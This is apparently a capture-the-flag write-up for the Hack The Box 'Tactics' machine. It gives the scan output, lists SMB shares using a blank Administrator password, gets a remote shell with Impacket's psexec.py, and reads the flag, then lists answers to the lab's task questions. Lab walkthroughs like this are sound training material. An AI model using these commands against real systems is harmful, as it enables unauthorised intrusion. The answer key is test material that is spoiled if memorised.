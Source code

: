# Tactics

target: 10.129.175.10

attker: 10.10.15.248

## Scan

```bash
└─$  nmap -p- -Pn --min-rate=1000 -sV 10.129.175.10

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-23 07:37 EST
Nmap scan report for 10.129.175.10
Host is up (0.39s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 175.27 seconds
```

```bash
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 10.129.175.10:445     - SMB Detected (versions:2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-GCM) (signatures:optional) (guid:{2cc1455a-67d2-421b-bf50-19a1493bf296}) (authentication domain:TACTICS)
[*] 10.129.175.10:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## Misconfiguration

default credentials:

```bash
┌──(kali㉿kali)-[~/Documents/temp]
└─$ smbclient -L \\\\10.129.175.10 -U 'Administrator'%''

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.175.10 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

## impacket

```bash
┌──(impacket)─(kali㉿kali)-[~/Documents/tools/impacket]
└─$ psexec.py Administrator@10.129.175.10 -no-pass
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Requesting shares on 10.129.175.10.....
[*] Found writable share ADMIN$
[*] Uploading file nwofoDkm.exe
[*] Opening SVCManager on 10.129.175.10.....
[*] Creating service DIDn on 10.129.175.10.....
[*] Starting service DIDn.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
f751c19eda8f61ce81827e6930a1f40c
```

## Task

Task 1: Which Nmap switch can we use to enumerate machines when our ping ICMP packets are blocked by the Windows firewall?: `-Pn`

Task 2: What does the 3-letter acronym SMB stand for: `Server Message Block`

Task 3: What port does SMB use to operate at?: `445`

Task 4: What command line argument do you give to `smbclient` to list available shares?: `-L`

Task 5: What character at the end of a share name indicates it's an administrative share?: `$`

Task 6: Which Administrative share is accessible on the box that allows users to view the whole file system?: `C$`

Task 7: What command can we use to download the files we find on the SMB Share?: `get`

Task 8: Which tool that is part of the Impacket collection can be used to get an interactive shell on the system?: `psexec.py`

Submit root flag: done

### References

<https://kylemistele.medium.com/impacket-deep-dives-vol-1-command-execution-abb0144a351d#:~:text=One%20of%20the%20most%20commonly>,is%20therefore%20an%20invaluable%20tool.

<https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/>
